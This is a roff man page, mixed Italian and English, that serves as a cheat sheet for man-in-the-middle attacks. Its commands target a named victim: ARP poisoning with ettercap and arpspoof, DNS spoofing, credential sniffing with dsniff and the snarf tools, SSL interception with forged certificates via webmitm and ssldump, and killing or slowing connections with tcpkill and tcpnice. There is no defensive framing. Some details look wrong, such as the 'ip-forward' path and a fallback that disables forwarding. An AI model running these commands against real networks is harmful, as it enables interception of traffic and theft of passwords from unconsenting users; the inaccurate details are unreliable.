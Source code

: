 .\" generated with Ronn/v0.7.3
.\" http://github.com/rtomayko/ronn/tree/0.7.3
.
.TH "MITM" "1" "June 2017" "Filippo Squillace" "mitm"
.
.SH "NAME"
\fBMITM\fR \- Man in the middle sniffing
.
.SH "sysctl"
To displays all the output(parameters): \fBsysctl \-a\fR
.
.P
To do changes with the appropriate command: \fBsudo sysctl \-w parameter=value\fR
.
.P
For example: \fBsudo sysctl \-w net\.ipv4\.ip_forward=1\fR
.
.P
To load the value into kernel and become live: \fBsysctl \-a\fR
.
.SH "ettercap \- mitm"
Non c\'è bisogno di abilitare l\'inoltro ip ma basta semplicemente eseguire il comando dopo la config di /etc/etter\.conf
.
.P
\fBsudo ettercap \-Tqi wlan0 \-M arp:remote /VICTIM/ /GW/\fR
.
.P
ATTENZIONE: Non provare SSL utilizando il bridged mode in quanto non funziona\. ATTENZIONE: Non usare ip_forward=1 in quanto si rischierebbe di inviare duplicati(Vedere la descrizione di man ettercap per ulterior dettagli)\. ATTENZIONE: Assicurarsi di avere installato iptables altrimenti non funzionerebbe il forward\.
.
.P
To check if ARP poison is working well try: \fBarp \-a\fR
.
.SH "ettercap \- dns_spoof"
Modifica il file /usr/share/ettercap/etter\.dns inserendo una regola del tipo: * A 127\.0\.0\.1 per inoltrare tutti i dns al localhost Attivare il plugin dns_spoof
.
.SH "ettercap \- remote_browser"
Serve per conoscere le pagine visitate dall\'utente\. Specificare il browser da usare su /etc/etter\.conf
.
.SH "man in the middle (mitm)"
Per abilitare l\'inoltro dei pacchetti fare in questo modo (da non utilizzare con il comando fragrouter): \fBecho 1 > /proc/sys/net/ipv4/ip\-forward\fR
.
.P
Se non funziona provare: \fBsudo sysctl \-w net\.ipv4\.ip_forward=0\fR
.
.P
La prima operazione da fare è il comando arpspoof\. Consideriamo i seguenti IP: IP_VICTIM è l\'IP della vittima e IP_SERVER\. I comandi da eseguire sono: \fBarpspoof \-t IP_VICTIM IP_SERVER\fR e \fBarpspoof \-t IP_SERVER IP_VICTIM\fR
.
.P
La successiva operazione è fare in modo che il mitm possa inoltrare effettivamente i pacchetti in transito: \fBfragrouter \-B1\fR
.
.SH "sniffing"
Questa è un operazione che va fatta una volta che il pc è in mitm!! Il comando capace di sniffare user e pass di moltissimi protocolli è: \fBdsniff \-i eth0 \-md\fR
.
.P
L\'opzione \-m consente il controllo automatico dei protocolli e \-d è il debugging mode\. Un\'altro comando che spesso viene adoperato è: \fBngrep host IP\fR
.
.P
Dove IP è l\'indirizzo IP della vittima\.
.
.P
Gli comandi di sniffing sono: Sniffa mail e li pone in output ben formattati: \fBmailsnarf\fR
.
.P
Sniffa URL: \fBurlsnarf\fR
.
.P
Sniffa messaggi su IRC, MSN etc: \fBmsgsnarf\fR
.
.P
Sniffa file su NFS: \fBfilesnarf\fR
.
.P
Manda gli URL sniffati al proprio browser locale: \fBwebspy\fR
.
.SH "SSL mitm"
Questa è un operazione che va fatta una volta che il pc è in mitm!! Questa procedura consente di ottenere falsificare i certificati che vengono trasmessi via HTTP, POP, SMTP o qualunque altro protocollo che si poggia sul SSL\. La prima operazione è redirezionare il traffico HTTP/HTTPS tramite: \fBdnsspoof\fR
.
.P
Successivamente occorre falsificare il certificato tramite il comando: \fBwebmitm\fR
.
.P
A questo punto il comando webmitm restituirà il falso certificato (webmitm\.crt) che potrà essere utilizzato per decifrare il traffico SSL sniffato tramite wireshark (ethereal) e posto in un file\. Quindi: \fBssldump \-r ozzy \-k webmitm\.crt \-d > outozzy\fR
.
.P
con \-r specifichiamo il dumpfile, \-k è la chiave, \-d indica di decifrare i dati Rimane solo da interpretare i dati ormai decifrati: \fBcat outozzy | grep ??\fR
.
.P
In grep si può mettere qualcosa che possa filtrare i dati in modo da ottenere più facilmente i dati sensibili\. Per esempio si può inserire il nome di qualche tag html vicino ai dati sensibili\.
.
.SH "kill and slow down connection with tcpkill and tcpnice"
Se vogliamo chiudere le connessioni TCP su porta 22 (SSH): \fBtcpkill \-i eth0 tcp port 22\fR
.
.P
If you want to kill all the connections but not for a pecified host: \fBsudo tcpkill \-i wlan0 \-9 not host 192\.168\.1\.109\fR
.
.P
Se vogliamo rallentare una connessione TCP iniettando pacchetti che avvisano di una finestra di ricezione piccola o pacchetti ICMP: \fBtcpnice \-i eth0 tcp port 22\fR
.
.P
To slow down all the connection but not for a specified host: \fBsudo tcpnice \-i wlan0 not host 192\.168\.1\.109\fR

